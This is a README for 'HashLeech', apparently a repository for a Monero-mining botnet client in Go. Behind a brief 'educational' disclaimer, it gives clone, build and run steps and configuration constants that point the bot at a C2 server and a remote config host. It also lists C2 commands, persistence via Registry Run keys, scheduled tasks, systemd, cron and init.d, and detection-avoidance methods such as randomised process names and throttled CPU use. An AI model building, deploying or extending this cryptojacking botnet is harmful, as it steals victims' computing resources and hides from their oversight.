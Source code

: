 HashLeech - Cryptocurrency Mining Botnet
Disclaimer: This project is for educational and research purposes only. Unauthorized cryptocurrency mining on systems you don't own is illegal and unethical. Use this code only on systems you have explicit permission to test on.

Overview
HashLeech is a cryptocurrency mining botnet implementation that demonstrates how malware can distribute and manage cryptocurrency miners across multiple systems. Unlike traditional botnets focused on DDoS attacks, HashLeech specializes in Monero (XMR) mining using the XMRig miner.

Features
|---------------------------------------------------------------------------|
|Automatic Miner Deployment: Downloads and installs XMRig miner automatically|
|Command & Control (C2) Server: Centralized control of all mining nodes|
|Stealth Operation: Runs with minimal resource usage detection|
|Cross-Platform: Supports both Windows and Linux systems|
|Persistence Mechanisms: Automatically reinstalls after reboots|
|Dynamic Configuration: Remote updates of mining pool and settings|
|Heartbeat Monitoring: Regular status reports to C2 server|
|Resource Optimization: Adjusts mining intensity based on system specs|

```mermaid
graph TD
    BotClient[Bot Client - this repository]
    C2Server[C2 Server - separate repository]
    XMRig[XMRig Miner]

    BotClient -->|Connects to| C2Server
    BotClient -->|Downloads and runs| XMRig
    BotClient -->|Reports mining statistics| C2Server
    BotClient -->|Implements persistence| BotClient

    C2Server -->|Manages all connected bots| BotClient
    C2Server -->|Sends mining commands| XMRig
    C2Server -->|Collects statistics| BotClient
    C2Server -->|Updates mining configuration| XMRig

    XMRig -->|Official XMRig miner| XMRig
    XMRig -->|Configured for Monero mining| XMRig

```

Installation
For Research/Testing Purposes
Clone the repository:

bash
git clone https://github.com/yourusername/HashLeech.git
cd HashLeech
Configure the C2 server address in bot.go:

go
const C2Address = "your.c2.server.com:7003"
Build the bot:

bash
go build -o HashLeech
Run the bot:

bash
./HashLeech
Command Reference
Command	Description	Example
START	Start mining operation	START
STOP	Stop mining operation	STOP
UPDATE	Update miner binary	UPDATE
KILL	Remove miner and bot	KILL
PERSIST	Install persistence mechanism	PERSIST
Configuration
Edit the following constants in bot.go before building:

go
const (
    C2Address         = "your.c2.server.com:7003"  // Your C2 server address
    xmrigURL          = "https://github.com/xmrig/xmrig/releases/download/v6.20.0/xmrig-6.20.0-msvc-win64.zip"
    configURL         = "http://yourconfigserver.com/config.json" 
    minerPath         = "C:\\Windows\\Temp\\xmrig.exe"           // Windows path
    // minerPath      = "/tmp/xmrig"                            // Linux path
)
Mining Configuration
The config.json file should contain standard XMRig configuration. Example:

json
{
    "autosave": true,
    "cpu": true,
    "opencl": false,
    "cuda": false,
    "pools": [
        {
            "url": "pool.moneroocean.stream:10128",
            "user": "your_wallet_address",
            "pass": "x",
            "keepalive": true,
            "tls": false
        }
    ]
}
Persistence Mechanisms
HashLeech implements multiple persistence methods:

Windows:

Registry Run key

Scheduled tasks

Linux:

Systemd service

Cron job

Init.d script

Detection Avoidance
Randomizes process names

Uses standard TLS for C2 communication

Limits CPU usage to avoid detection

Runs with low process priority

Hides in system temp directories
